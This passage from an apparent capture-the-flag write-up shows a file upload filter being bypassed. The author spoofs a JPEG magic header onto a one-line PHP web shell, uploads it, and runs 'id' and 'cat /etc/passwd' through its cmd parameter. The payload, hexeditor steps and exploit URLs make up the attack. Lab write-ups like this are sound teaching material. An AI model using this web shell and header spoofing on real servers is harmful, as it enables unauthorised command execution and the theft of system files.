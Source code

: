 ![image](https://user-images.githubusercontent.com/67879936/222439719-2c33fdd9-df58-4316-a3f0-7eccff837b38.png)

With this, I can trick the filter into thinking the .php file I want to upload is actually a .jpeg file. But I had to modify mine a little.

```payload:AAAA<?php system($_GET[‘cmd’]); ?>```

I stored the payload in a file (abeg.php), then I used a tool “hexeditor” to change the abeg.php header to that of a .jpeg header.

![image](https://user-images.githubusercontent.com/67879936/222441535-caf6bfd6-4d65-4ec7-8d81-7517fd639571.png)

Now, lets go ahead and use hexeditor to change the content of the header

command:```hexeditor abeg.php```

![image](https://user-images.githubusercontent.com/67879936/222441796-92dce8c9-a974-4076-bfae-4c1633a37b8e.png)

From the above screenshot, you will see that the ```AAAA``` has the header ```41 41 41 41```, now lets change the header to that of a .jpeg file. Checking it up online I found this ```FF D8 FF EE```. So, let’s change the header to that

![image](https://user-images.githubusercontent.com/67879936/222442035-041b2d28-48f2-4c34-86da-9f9e7f994a1f.png)

Now that we have changed the header, lets save it and exit (hit ctrl +x, then hit the enter button to exit).

Using the cat command to read the file you will observe it is different from what we initially put there

![image](https://user-images.githubusercontent.com/67879936/222442236-39bd5b15-2268-4f8b-a054-32bf2c99ef8e.png)

Now, that we have successfully changed the header. Lets go ahead and upload it

![image](https://user-images.githubusercontent.com/67879936/222442315-61c3358b-2e02-475e-b438-c076ccaf5986.png)

boom, we bypassed those filters hehe. At this point I was like “Muzec I am coming for you xD”.

So, going to the _/upload_ directory to find my file, I saw this

![image](https://user-images.githubusercontent.com/67879936/222442468-7132ccea-1ad4-48d8-897f-1d43ddb67d2e.png)

Nice, the above screenshot actually means we found our file hehe.

Now, lets go ahead and exploit this bad boy. If you recall, we pasted a php payload in the abeg.php file, now what this payload will do is that it will lead to a command injection vulnerability. Interesting right??

url:```http://185.203.119.220:8001/uploads/abeg.php?cmd=id```

You going to that link should get you something like this

![image](https://user-images.githubusercontent.com/67879936/222443770-be84b61d-36b5-42e6-ba87-0a93fb5f44b3.png)

Lets try reading the /etc/passwd file also

url:```http://185.203.119.220:8001/uploads/abeg.php?cmd=cat /etc/passwd```
```